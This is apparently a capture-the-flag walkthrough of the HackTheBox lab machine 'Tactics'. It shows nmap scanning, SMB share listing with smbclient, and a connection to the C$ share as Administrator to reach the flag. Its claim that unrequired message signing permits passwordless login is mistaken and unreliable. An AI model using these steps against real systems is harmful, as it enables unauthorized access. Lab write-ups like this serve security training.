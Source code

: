 ```yaml
---
title: Tactics - A HackTheBox machine
author: amandaguglieri
TableOfContents: true
draft: fase
tags: 
  - walkthrough
  - windows
  - smb
  - 445
---
```


# Tactics - A HackTheBox machine


```bash
nmap -sC -A 10.129.228.98  -Pn -p-
```

Results:

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7476/tcp): CLEAN (Timeout)
|   Check 2 (port 63095/tcp): CLEAN (Timeout)
|   Check 3 (port 16465/udp): CLEAN (Timeout)
|   Check 4 (port 43695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-02T10:26:04
|_  start_date: N/A

```

Interesting part here is 

```
smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

This will allow us to use smbclient share enumeration withouth the need of providing a password when signing into the shared folder. For that we will use a well known user in Windows: Administrator.

```bash
smbclient -L 10.129.228.98 -U Administrator
```

Results:

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

```bash
smbclient \\\\10.129.228.98\\C$ -U Administrator
```


Flag is located at: 

```
\Users\Administrator\Desktop\>flag.txt 
```

